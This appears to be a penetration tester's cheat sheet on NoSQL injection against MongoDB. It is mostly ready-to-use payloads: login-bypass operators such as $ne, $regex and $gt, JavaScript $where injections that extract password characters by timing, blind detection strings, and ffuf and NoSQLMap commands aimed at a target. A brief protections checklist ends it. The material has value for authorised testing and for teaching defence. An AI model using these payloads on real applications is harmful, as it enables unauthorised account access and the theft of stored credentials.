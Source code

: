 #whitebox 
- [ ] Identify untrusted data
- [ ] Identify $where and $find query statements
Vulnerable code
```TypeScript
db.users.find({
    email: "<email>",
    password: "<password>"
});
```
Content-Type: application/x-www-form-urlencoded
```bash
param[$op]=val # same as param: param: {$op: val}
email[$regex]=.*&password[$regex]=.*
email=admin%40mangomail.com&password[$ne]=x # admin email and password not equal x
email[$gt]=&password[$gt]= # any string is greater than empty string
email[$gte]=&password[$gte]= # greater than equal
```
Authentication Bypass
```JSON
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
{"username":{"$eq":"administrator"},"password":{"$ne":"x"}}
{"username":{"$eq":"administrator"},"password":{"$ne":""}}
{"username":{"$eq":"administrator"},"password":{"$gt":""}}
{"username":{"$eq":"administrator"},"password":{"$gte":""}}
```
Query String Exploitation
```json
'||'
'|| '1'=='1
Pets' && 0 && 'x <- use this
Pets' && 1 && 'x <-
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'


administrator' && this.password.length < 30 || 'a'=='b
administrator'+%26%26+this.password.length+<+9+||+'a'=='b
administrator ' && this.password[0]=='a
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
### Blind
Boolean Based Detection
```JSON
``'"`{ <-
;$Foo} <- all this is one
$Foo \xYZ <-
``'\"`{\r;$Foo}\n$Foo \\xYZ\u0000`` <- FUZZ STRING
'||sleep(100)||'
'||'
'|| '1'=='1
Pets' && 0 && 'x <- use this
Pets' && 1 && 'x <-
{ "$where": "sleep(5000)" }
{ $ne: 'x' }
{ $eq: 'x' }
{ $regex: '^.*'}
{ $regex: '^0.*'} // Returns true if first character is 0
{ $regex: '^1.*'} // Returns true if first character is 1
{ $regex: '^10.*'}
{ "$where":"0" }
{ "$where":"1" }
{ "$where":"Object.keys(this)[0].match('^.{0}a.*')" } // Hidden fields
```
(ffuf) Fuzzing NoSQLi
```bash
ffuf -w /usr/share/seclists/Fuzzing/Databases/NoSQL.txt -u http://vulnerable.com/index.php -d '{ "trackingNum": FUZZ}'
```
(NoSQLmap) Automated NoSQLi
```bash
python2 nosqlmap.py --attack 2 --victim 127.0.0.1 --webPort 80 --uri /index.php --httpMethod POST --postData email,admin@admin.com,password,qwerty --injectedParameter 1 --injectSize 4
```
### Protections
- [ ] String Type Casting on user input, MongoDB has very strict type protections.
- [ ] Query Rewriting
- [ ] Only use $where if it is impossible to express query in another way
- [ ] Disable server-side JavaScript evaluation (enabled by default)